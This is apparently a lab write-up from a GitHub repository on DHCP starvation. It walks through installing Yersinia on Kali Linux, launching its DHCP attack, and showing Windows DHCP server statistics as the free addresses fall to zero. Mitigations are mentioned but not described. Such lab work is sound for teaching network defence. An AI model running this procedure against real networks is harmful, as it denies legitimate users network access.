



# DHCP starvation

1. Goal
    * Exhausting all available IP addresses that can be allocated by the DHCP server.
     
2. Used hardware
    * 1 laptop with Kali Linux
    * 1 DHCP server (Can also be a router)

3. Used software
    * Kali Linux (2019.4)

4. Setup
    
    

5. Getting started
    
    1. Install Yersinia on Kali Linux (if necessary)
   
    [More information about Yersinia](https://tools.kali.org/vulnerability-analysis/yersinia)
    ```
    root@kali:~# apt-get update
    root@kali:~# apt-get upgrade
    root@kali:~# apt-get install yersinia
    ```

    2. Check the statistics of the DHCP server (DHCP Server).

    We will use Windows Powershell to complete this task.
        
    ```powershell
    Get-DhcpServer4Statistics

    ServerStartTime           : 25/01/2020 21:49:33
    TotalScopes               : 1
    ScopesWithDelayConfigured : 0
    ScopesWithDelayOffers     : 
    TotalAddresses            : 101
    AddressesInUse            : 3
    AddressesAvailable        : 98
    PercentageInUse           : 2,970297
    PercentagePendingOffers   : 0
    PercentageAvailable       : 97,0297
    Discovers                 : 0
    Offers                    : 0
    PendingOffers             : 0
    DelayedOffers             : 0
    Requests                  : 0
    Acks                      : 0
    Naks                      : 0
    Declines                  : 0
    Releases                  : 0
    ```
    
    3. Start Yersinia in Graphical Mode (KALI Linux).

    ```
    root@kali:~# yersinia -G
    ```
    

    4. Select Launch Attack and select DHCP.

      
    
    5. Start the attack and look at the statistics of the DHCP server (DHCP Server).
    
    ```powershell
    Get-DhcpServer4Statistics

    ServerStartTime           : 25/01/2020 22:36:15
    TotalScopes               : 1
    ScopesWithDelayConfigured : 0
    ScopesWithDelayOffers     : 
    TotalAddresses            : 198
    AddressesInUse            : 101
    AddressesAvailable        : 0
    PercentageInUse           : 51,0101
    PercentagePendingOffers   : 48,9899
    PercentageAvailable       : 0
    Discovers                 : 54151
    Offers                    : 98
    PendingOffers             : 97
    DelayedOffers             : 0
    Requests                  : 1
    Acks                      : 1
    Naks                      : 0
    Declines                  : 0
    Releases                  : 0
    ```

6. Conclusion
    
A DHCP starvation attack is easily launched. To mitigate this kind of attack several options are available.   

